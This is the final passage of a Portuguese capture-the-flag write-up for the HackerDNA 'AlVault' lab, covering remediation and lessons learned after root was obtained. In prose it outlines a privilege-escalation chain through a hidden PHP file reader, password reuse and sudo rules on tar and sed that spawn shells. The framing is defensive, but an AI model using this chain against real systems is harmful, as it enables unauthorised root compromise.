
*`whoami → root`. Máquina comprometida de ponta a ponta (flag censurada).*

🚩 **Flag de root capturada.**

---

## 9. Remediação

- **"Sem link" ≠ "inacessível".** Remover um script aposentado de um menu não o tira do disco. Apague o código antigo de verdade — e nunca guarde segredos de produção em um diretório servido pela web.
- **Proteja o dado, não a URL.** O `deny all` do nginx foi contornado por um PHP que lia o mesmo arquivo. Controles de acesso precisam estar sobre o *recurso* (permissões de arquivo, um cofre de segredos), não sobre um caminho HTTP que por acaso aponta para ele.
- **Sudo com privilégio mínimo.** `NOPASSWD` em um script que arquiva caminhos arbitrários como root é perigoso. Troque a blacklist por uma *allow-list* dos diretórios exatos permitidos e reduza privilégios dentro do próprio script.
- **Nunca conceda sudo em binários que abrem shell.** `sed`, `awk`, `find`, `vi`, `tar` e companhia conseguem gerar um shell (ver GTFOBins). `sudo /bin/sed` é, na prática, `sudo /bin/sh`.
- **Higiene de credenciais.** Não reutilize a mesma senha entre camada web e SSH; não guarde senhas em texto puro em "notas temporárias"; e rotacione tudo que acabar dentro de um backup.

## 10. Lições aprendidas

- **Um 403 não é um limite de permissão.** Bloquear uma URL no servidor web não significa nada se outro componente lê o mesmo arquivo do disco. O bug real foi o `file_search.php` sem link — não o 403 visível.
- **Enumere o que ficou para trás.** O `robots.txt` nomeou as áreas; um comentário no fonte admitiu que um arquivo foi escondido, não apagado; e uma wordlist maior o encontrou quando a comum falhou. Cada passo foi uma pista deixada pelos próprios defensores.
- **Cadeias vencem bugs isolados.** Ler um arquivo me deu um shell de usuário. Duas regras de sudo largas demais e independentes (um `tar`-como-root que esqueceu o `/home`, e depois o `sudo sed`) transformaram isso em root completo. Vale auditar o `sudo -l` em cada salto de privilégio.

---

*Write-up produzido para fins educacionais, em ambiente de laboratório autorizado ([HackerDNA](https://hackerdna.com/labs/alvault)). Todas as ações foram executadas contra o alvo designado do desafio AlVault.*
